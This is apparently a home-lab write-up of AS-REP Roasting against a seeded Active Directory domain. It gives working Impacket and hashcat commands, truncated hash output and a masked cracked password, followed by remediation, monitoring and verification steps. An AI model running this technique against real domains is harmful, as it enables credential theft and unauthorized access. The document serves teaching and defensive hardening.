


# 03 — AS-REP Roasting

## Context
With a list of valid usernames from the enumeration step and still no credentials, the goal is to
pull a crackable hash for any account that does not require Kerberos pre-authentication, then crack
it offline to get a real domain password.

## Prerequisites
- Access: list of valid usernames (`users.txt` from step 01), no credentials
- Tools: Impacket (`GetNPUsers`), `hashcat`, `rockyou.txt`

## Walkthrough

1. Ask the KDC for an AS-REP for each username, without authenticating. Accounts that have pre-auth
   disabled will return a hash.
   ```bash
   sudo impacket-GetNPUsers youssefelazhar.be/ -dc-ip 172.18.10.100 \
     -usersfile users.txt -no-pass -format hashcat -outputfile asrep.txt
   ```
   All six seeded accounts answer with an AS-REP hash (`$krb5asrep$23$...`):
   ```
   $krb5asrep$23$DION_GROSS@YOUSSEFELAZHAR.BE:2ddd4aac...[truncated]
   $krb5asrep$23$MARVA_ORTIZ@YOUSSEFELAZHAR.BE:db622267...[truncated]
   $krb5asrep$23$ALFREDA_PETERSON@YOUSSEFELAZHAR.BE:95f37a93...[truncated]
   $krb5asrep$23$BURTON_MCPHERSON@YOUSSEFELAZHAR.BE:9af5f984...[truncated]
   $krb5asrep$23$ALFREDO_MEYERS@YOUSSEFELAZHAR.BE:3c32a80b...[truncated]
   $krb5asrep$23$ELENA_FOREMAN@YOUSSEFELAZHAR.BE:5b53d079...[truncated]
   ```
   

2. Crack the hashes offline with hashcat in AS-REP mode (`18200`) against `rockyou.txt`.
   ```bash
   sudo hashcat -m 18200 asrep.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
   ```
   

3. One of the accounts falls to a wordlist guess. `ELENA_FOREMAN` was using a seasonal password:
   ```
   $krb5asrep$23$ELENA_FOREMAN@YOUSSEFELAZHAR.BE:5b53d079...[truncated]:Summer****
   ```
   

   > Password masked on purpose. It is a classic `Season + Year + !` pattern.

## Why it works
When an account has *"Do not require Kerberos pre-authentication"* set, the KDC will hand out an
AS-REP to anyone who asks, without proving they know the password first. Part of that reply is
encrypted with a key derived from the account's password, so it works as an offline oracle: guess a
password, derive the key, and check whether it decrypts. The cracking happens entirely on the
attacker's machine, with no traffic back to the DC, no account lockout and no failed logons to
trip an alert. A weak password then turns the hash into cleartext in seconds.

## Impact
The attacker goes from zero credentials to a set of valid domain credentials
(`ELENA_FOREMAN` / masked). That is an authenticated foothold in the domain: it opens up
authenticated LDAP enumeration, access to shares and services the account can reach, Kerberoasting
of service accounts, and the search for a path to escalate.

## Remediation
- Turn off *"Do not require Kerberos pre-authentication"* on every account that has it. Very few
  accounts have a real reason to need it, so treat each one as an exception you can justify.
  ```powershell
  # Find accounts with pre-auth disabled
  Get-ADUser -Filter 'useraccountcontrol -band 4194304' -Properties useraccountcontrol |
      Select-Object SamAccountName

  # Fix one account
  Set-ADAccountControl -Identity ELENA_FOREMAN -DoesNotRequirePreAuth $false
  ```
- Enforce a real password policy (length + complexity + banned common/seasonal passwords) so that
  even a hash that does leak is not trivially cracked. A fine-grained password policy or a banned
  password list handles the `Summer2023!` class directly.
- Monitor Kerberos AS-REQ/AS-REP for accounts flagged as not requiring pre-auth (Event ID `4768`
  with the relevant encryption/pre-auth fields).

## Verification
*(to apply)* After clearing the pre-auth flag on the seeded accounts, re-run:
```bash
sudo impacket-GetNPUsers youssefelazhar.be/ -dc-ip 172.18.10.100 \
  -usersfile users.txt -no-pass -format hashcat
```
The expected result is that no account returns an AS-REP hash (each is reported as requiring
pre-authentication), proving the attack surface is closed. Capture the before/after for the repo.

## Reference
- MITRE ATT&CK — T1558.004, Steal or Forge Kerberos Tickets: AS-REP Roasting
